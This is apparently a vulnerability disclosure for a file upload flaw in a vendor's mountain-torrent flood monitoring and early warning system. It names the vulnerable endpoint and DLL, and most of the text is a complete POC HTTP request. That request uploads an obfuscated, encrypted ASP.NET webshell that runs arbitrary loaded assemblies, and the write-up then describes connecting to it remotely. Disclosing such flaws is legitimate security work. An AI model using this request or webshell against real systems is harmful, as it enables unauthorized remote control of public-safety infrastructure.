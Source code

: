 Gen technology co., LTD. - four mountain torrent disaster prevention and control of monitoring and early warning system Duty - UploadFloodPlanFileUpdate module file upload loopholes

official website:https://www.istrong.cn/

Vulnerability location:/Duty/AjaxHandle/UploadFloodPlanFileUpdate.ashx

![WPS图片(1)](https://github.com/segonse/cve/assets/129601241/45813a6a-11d4-4745-9584-592dd1415c85)

/bin/Strongsoft.Web.dll

/ / Strongsoft.Web.Duty.AjaxHandle.UploadFloodPlanFileUpdate

Entry function:
![WPS图片(2)](https://github.com/segonse/cve/assets/129601241/2545a124-c281-4891-aeb3-2ec3172ec76f)

Enter the ArticleFileIpLoad function:
![WPS图片(3)](https://github.com/segonse/cve/assets/129601241/ff8fb885-a0c9-4095-b7f2-2a6bd8849ad8)

When incoming folder = / location/UploadFile/Docunment after upload/yyyyMMddHHmmssfff. Aspx.

POC
```
POST /Duty/AjaxHandle/UploadFloodPlanFileUpdate.ashx HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 1416
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB4tZ2o9YRDmhPXe7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="folder"

/UploadFile/
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="isMain"

1
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="Filedata"; filename="api.aspx"
Content-Type: application/xml

<%@ Page Language="C#" %>
<%@Import Namespace="System.Reflection"%>
<%@Import Namespace="System.IO"%>
<%@Import Namespace="System.Security.Cryptography"%>
<%
    try {
        string key = "900bc885d7553375";
        byte[] k = Encoding.Default.GetBytes(key);
        Session.Add("sky", key);
        StreamReader sr = new StreamReader(Request.InputStream);
        string line = sr.ReadLine();
        if (!string.IsNullOrEmpty(line))
        {

            byte[] c = Convert.FromBase64String(line);
            Assembly assembly = typeof(Environment).Assembly;
            RijndaelManaged rm =(RijndaelManaged) assembly.CreateInstance("System.Secur"+"ity.Crypto"+"graphy.Rijnda"+"elManaged");
            byte[] data=rm.CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length);
            Assembly.Load(data).CreateInstance("U").Equals(this.Context);
            sr.Close();
        }
    }
    catch{ }

%>
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7--
```
**Direct unauthorized upload of aspx Trojans**
![WPS图片(4)](https://github.com/segonse/cve/assets/129601241/1925c3c4-bfa4-4eb2-96e5-2780d6020401)
**Connect remotely via webshell**
![WPS图片(5)](https://github.com/segonse/cve/assets/129601241/3155d29f-63b6-440c-82e9-a37ab71e9300)

